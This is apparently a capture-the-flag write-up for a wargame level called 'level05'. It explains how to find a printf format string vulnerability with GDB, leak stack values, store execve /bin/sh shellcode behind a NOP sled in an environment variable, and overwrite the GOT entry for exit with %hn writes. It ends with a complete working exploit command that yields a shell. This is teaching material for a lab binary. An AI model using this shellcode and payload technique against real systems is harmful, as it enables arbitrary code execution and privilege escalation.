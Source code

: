 
# Level05 - Exploiting Format String Vulnerability to Execute Shellcode

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level05
coucou
coucou
```

The program prompts for input twice.

## Step 2: Analyzing with GDB

To understand the program, let's analyze it using GDB (GNU Debugger). The program uses `fgets()` to read input into a buffer of 100 characters, converts the input to lowercase, and finally calls `printf()` with the buffer as an argument:

```assembly
0x08048500 <+188>: lea    eax,[esp+0x28]   ; buffer
0x08048504 <+192>: mov    DWORD PTR [esp],eax
0x08048507 <+195>: call   0x8048340 <printf@plt>
```

This setup introduces a format string vulnerability.

## Step 3: Exploiting the Format String

Test the vulnerability by printing stack values:

```bash
$ python -c 'print "BBBB" + "-%x" * 12' | ./level05
bbbb-64-f7fcfac0-f7ec3af9-ffffd5ff-ffffd5fe-0-ffffffff-ffffd684-f7fdb000-62626262-2d78252d-252d7825
```

Our input appears at the 10th position on the stack.

## Step 4: Injecting Shellcode

To exploit this, store shellcode in an environment variable and inject it at the 10th position using the format string.

### Shellcode

Use the following shellcode:

```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

### Find the Address of the Payload

Store the shellcode in an environment variable:

```bash
$ env -i PAYLOAD=$(python3 -c 'print((b"\x90" * 1000 + b"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh").decode("latin-1"))') gdb level05

(gdb) x/200s environ
```

### Locate the Environment Variable Address

Identify the address of the nopesled to jump to, e.g., `0xffffdc59`.

## Step 5: Overwriting the GOT Entry

We need to overwrite a GOT entry. Since the program ends with `exit()`, we can overwrite it:

```assembly
0x0804850c <+200>: mov    DWORD PTR [esp],0x0
0x08048513 <+207>: call   0x8048370 <exit@plt>
```

The GOT address of `exit` is `0x80497e0`.

### Building the Exploit

Split the address `0xffffdc59` into two writes for the GOT:

1. First part: `dc59` (56409 - 8 bytes for addresses).
2. Second part: `ffff` (65535 - remaining characters).

Construct the payload:

```bash
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56401d" + "%10$hn" + "%9126d" + "%11$hn"'
```

## Step 6: Running the Exploit

Run the exploit with the environment variable:

```bash
$ (python -c 'print ("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56401d" + "%10$hn" + "%9126d" + "%11$hn"'; cat) | env -i PAYLOAD=$(python -c 'print "\x90"*1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level05
whoami
level06
```

## Summary

- The program has a format string vulnerability that allows arbitrary memory writes.
- By injecting shellcode into an environment variable and using the format string, we can hijack execution.
- Overwriting the GOT entry for `exit` with the shellcode address enables us to execute arbitrary code.

This demonstrates how format string vulnerabilities can lead to full code execution if properly exploited.
